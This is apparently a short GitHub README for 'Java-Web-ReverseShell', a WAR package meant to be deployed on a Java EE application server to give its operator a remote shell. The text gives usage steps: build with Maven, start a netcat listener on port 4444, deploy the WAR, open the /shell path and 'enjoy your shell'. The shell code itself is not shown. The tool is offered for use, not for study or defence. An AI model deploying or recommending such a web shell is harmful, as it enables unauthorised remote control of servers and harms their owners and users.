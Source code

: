 # Java-Web-ReverseShell
Java WebServeur Reverse Shell

A war-ready reverse shell to deploy on Java EE application server

## usage
1.
`mvn clean install`
to compile the war
2.
`nc -lvp 4444`
to listen to connection

3.
deploy on the web serveur & go to <deploy_path>/shell

4. enjoy your shell
